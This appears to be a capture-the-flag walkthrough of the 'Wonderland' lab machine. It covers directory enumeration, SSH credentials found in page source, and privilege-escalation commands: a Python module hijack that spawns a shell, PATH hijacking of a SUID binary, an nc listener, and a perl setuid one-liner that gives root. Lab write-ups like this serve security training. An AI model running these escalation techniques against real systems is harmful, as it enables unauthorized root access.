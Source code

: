 ### Wonderland

export ip =10.10.176.192

first i put the nmap and gobuster to execute, nmap found port 22 and 80 open and gobuster found just tree directorys in the http page.

/img
/poem
/r 

in img have tree images, a rabbit and the others are a alice opens an door.
in these alice imgs theres is some text at the bottom but i couldn't understand it.

i mean, looks like a soo much diferent letters at the same time.

the main page says "that alice was so much surprised,that for a moment she forgot how to speak good english" but my english and my vocabulary aren't good so this becomes a little bit more harder to me.

the /r directory has a small text that says "Would you tell me, please, which way I ought to go from here?" BRO I DONT KNOW FIND YOURSELF.

so,i tried so much different names in url directory but couldn't have a response, just 404  

after a while i has a big idea and i've put de gobuster to run in the /r directory and he found /a directory

and " "That depends a good deal on where you want to get to," said the Cat." is the content of the /r/a/ directory, this cat is very cool i love him and his smile 

but it doesn't matter now, i put the gobuster to execute again but now in the /r/a/ and he found /b directory, looks like the alfabeth but it isn't in order  

Content:

    "I don’t much care where—" said Alice.

and gobuster found other /b directory inside /b directory, how confusing!

Content:     
    
    "Then it doesn’t matter which way you go," said the Cat. 

now gobuster found /i 

Content: 

    "—so long as I get somewhere,"" Alice added as an explanation.

all of these page has a "Keep going" in header so i mean that when i arrive in somewhere this will change

and the gobuster found /t and if you put all of these letter together, the result is:

"/r/a/b/b/i/t"  HAHAHAHAHA

and the header changes ! 

Content:

    Open the door and enter wonderland

    "Oh, you’re sure to do that," said the Cat, "if you only walk long enough."

    Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"

    "In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving the other paw, "lives a March Hare.     Visit either you like: they’re both mad."

so, if i add hatter or marchhare in the url? nothing happens :)

view source of the page has "alice:How Doth The Little Crocodile Improve His Shining Tail"

i don't know what this mean 

i researched about this and i found some darker things about this history and the creator wtffff

i tried a much words about in the url that crocodile and your shining tail but i couldn't find anything 

ITS A LOGIN ABSDIOLUBASOIUBDPAIUSBDPIUBAWPUBEDAUSBDANWDÌNO 

alice@pass

its a login to ssh connection!

now i can login in the machine

i know where is the root flag but i don't have permission. 

alice can run /usr/bin/python3.6 walrus_and_the_carpenter.py as rabbit user

this code, imports random and print a random line from an poem,so what i do is 

$ touch random.py

$ nano random.py


    python3 -c 'import pty; pty.spawn("/bin/bash")'

$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

$ nc -lvnp 9001

i'll search for suid aplications and if i don't got anything i'm going to search something in contrab

$ find / -perm -4000 2>/dev/null


    /home/rabbit/teaParty 
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/openssh/ssh-keysign
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/lib/eject/dmcrypt-get-device
    /usr/bin/chsh
    /usr/bin/newuidmap
    /usr/bin/traceroute6.iputils
    /usr/bin/chfn
    /usr/bin/passwd
    /usr/bin/gpasswd
    /usr/bin/newgrp
    /usr/bin/at 
    /usr/bin/newgidmap
    /usr/bin/pkexec
    /usr/bin/sudo
    /bin/fusermount
    /bin/umount
    /bin/ping
    /bin/mount
    /bin/su
    $ 

/home/rabbit/teaParty binary has suid, what this binary does?

let's go see with ida

this binary calls a system function with an command wich is "/bin/echo -n 'some text' && date --d"

the import thing here is date command, because the path is not correctly specified as in the echo command, then i'll manipule the path to get other user

$ mkdir /tmp/foo # create random directory to put the script

$ echo "/bin/sh" > /tmp/foo/date # create the script that will launch /bin/sh

$ chmod 777 /tmp/foo/date # mark it as executable

$ PATH=/tmp/foo:$PATH 

$ /home/rabbit/teaParty

$ whoami 
hatter

explanation from this blog [here](https://blog.creekorful.org/2020/09/setuid-privilege-escalation/)



    How does the PATH work exactly?
    
    The PATH variable is used to lookup executables when issuing command. It is composed of directories to include while searching, separated by a semicolon ‘:'.
    
    For example: /usr/local/bin:/usr/bin:/bin means that executables will be searched in the following directories:
    
        /usr/local/bin
        /usr/bin
        /bin
    
    The search will stop when the executable is found. It means that if apt is present in /usr/local/bin/apt it will not be searched in the others    directories


after a few time search something i decide use linpeas to enumerate for me and make the things more easy

linpeas found this:

    Files with capabilities (limited to 50):
    /usr/bin/perl5.26.1 = cap_setuid+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/bin/perl = cap_setuid+ep


so,just what you need to do is,but first connect in the hatter account with ssh...In my case this perl command only worked in this way

$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
#whoami
root

#cat /home/alice/root.txt
#cat /root/user.txt

;)
